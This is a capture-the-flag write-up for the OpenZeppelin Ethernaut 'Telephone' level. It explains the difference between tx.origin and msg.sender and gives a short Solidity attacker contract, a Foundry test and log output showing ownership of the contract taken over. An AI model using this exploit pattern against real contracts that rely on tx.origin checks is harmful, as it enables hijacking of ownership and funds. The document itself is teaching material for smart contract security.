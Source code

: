# What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)

# What You're Supposed to Do?

in `04-Telephone` Challenge, You Should Try To find a Way to Take Ownership of the Contract as Attacker.

`04-Telephone` Challenge Link: [https://ethernaut.openzeppelin.com/level/0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446](https://ethernaut.openzeppelin.com/level/0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446)


# How did i Complete This Challenge?

Lets Take a Look At `changeOwner` function:

```javascript
    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
```

First We have to Understand the Difference between `msg.sender` and `tx.origin`:

`A` is an EOA account.
`B` is An Contract.
`C` is An Another Contract.

`msg.sender` represents the caller of the current function and `tx.origin` represents the initial external account (EOA) that started the transaction. So if `A` calls `B` Contract and then `B` calls the `C` Contract, in Contract `C`, the `msg.sender` is `B` and `tx.origin` is `A`.

lets take a Look at if Statement of `changeOwner` function:

```javascript
    if (tx.origin != msg.sender) {
                owner = _owner;
    }
```

What Attacker Will Do is To Create Contract that Calls the `changeOwner` function, Now the Result of `if (tx.origin != msg.sender)` will be `true`.

Something Like this:

```javascript
    contract AttackerContract {

        Telephone telephone;

        constructor(Telephone _telephone) {
            telephone = _telephone;
        }

        function takeOwnershipAttack(address _newOwner) external {
            telephone.changeOwner(_newOwner);
        }

    }
```

Then i Wrote a Test to Take Ownership of `Telephone.sol` with utilizing the `AttackerContract` Contract.

```javascript
    function testTakeOverTheOwnership() external {
        vm.startPrank(owner);
        assertEq(telephone.owner(), owner);
        console2.log("Owner Address: ", owner);
        console2.log("Attacker Address: ", attacker);
        vm.stopPrank();

        vm.startPrank(attacker);
        console2.log("Telephone Contract Owner Before the Attack: ", telephone.owner());
        AttackerContract attackerContract = new AttackerContract(telephone);
        attackerContract.takeOwnershipAttack(attacker);
        console2.log("Telephone Contract Owner Before the Attack: ", telephone.owner());
        vm.stopPrank();
        assertEq(attacker, telephone.owner());
    }
```

You can Run this Test With Command Below in Your Terminal: (Required to Have Foundry Installed.)

```javascript
    forge test --match-test testTakeOverTheOwnership -vvvv
```

Take a Look At `Logs`:

```javascript
    Logs:
        Owner Address:  0x7c8999dC9a822c1f0Df42023113EDB4FDd543266
        Attacker Address:  0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e
        Telephone Contract Owner Before the Attack:  0x7c8999dC9a822c1f0Df42023113EDB4FDd543266
        Telephone Contract Owner After the Attack:  0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e
```
